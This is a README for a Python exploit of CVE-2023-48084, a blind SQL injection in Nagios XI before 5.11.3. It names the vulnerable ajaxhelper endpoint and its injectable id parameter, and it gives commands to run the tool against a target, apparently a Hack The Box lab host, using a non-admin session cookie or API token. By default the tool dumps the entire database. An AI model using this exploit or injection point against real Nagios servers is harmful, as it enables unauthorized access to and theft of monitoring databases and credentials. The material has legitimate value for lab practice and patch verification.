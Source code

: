 # CVE-2023-48084

Python exploit for the CVE-2023-48084 -> `Nagios XI before version 5.11.3 was discovered to contain a SQL injection vulnerability via the bulk modification tool.`

The exploit uses `/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=(<SQL COMMAND TO EXECUTE>)` to execute SQL queries, and exploits a blind SQL injection...


## Usage

Clone the repo and install the requirements.txt

```bash
git clone https://github.com/Hamibubu/CVE-2023-48084.git
cd CVE-2023-48084
pip install -r requirements.txt
```
Now execute the program, you need a non-admin session cookie, or an API token, example

```bash
python3 CVE-2023-48084.py --url https://monitored.htb/nagiosxi -a <token>
python3 CVE-2023-48084.py --url https://monitored.htb/nagiosxi -c <cookie>
```

## NOTE

For default it will try to dump all the database starting from schemas, if you want it more fast, just look at the code and take the part that you need
